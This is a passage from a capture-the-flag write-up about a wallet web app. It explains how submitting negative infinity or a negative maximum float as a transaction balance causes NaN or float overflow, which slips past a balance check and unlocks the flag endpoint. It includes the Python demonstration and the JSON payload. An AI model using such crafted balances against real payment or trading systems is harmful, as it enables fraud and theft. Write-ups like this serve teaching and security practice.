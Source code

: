 It will do something like this in backend

```python
>>> cashout = float(1000)
>>> amount = float('-inf')
>>> cashout -= amount
>>> cashout += amount
>>> cashout
nan
>>> cashout < 1000000000
False
```

Get the flag

```
POST /api/wallet/join_glacier_club HTTP/2
```

![](attachment/2f0c0c4535bb4fef2c8daed5e5c493a0.png)
#### Intended Way - Float overflow in python app

In order to bypass the check, we can trigger **float overflow** to throw exception, then make `inGlacierClub()` return `True`

**What is float overflow?**

There's a max limit for float value

```python
>>> import sys
>>> x = sys.float_info.max
>>> x
1.7976931348623157e+308
>>> x + 111111
1.7976931348623157e+308
```

> `1.7976931348623157e+308` = `1.7976931348623157 x 10 ^ 308`

I can subtract `ascoin` and `doge` with `-max`, so they will be `max` and `-max`

- Transaction

```json
{
  "sourceCoin": "ascoin",
  "targetCoin": "doge",
  "balance": "-1.7976931348623157e+308"
}
```
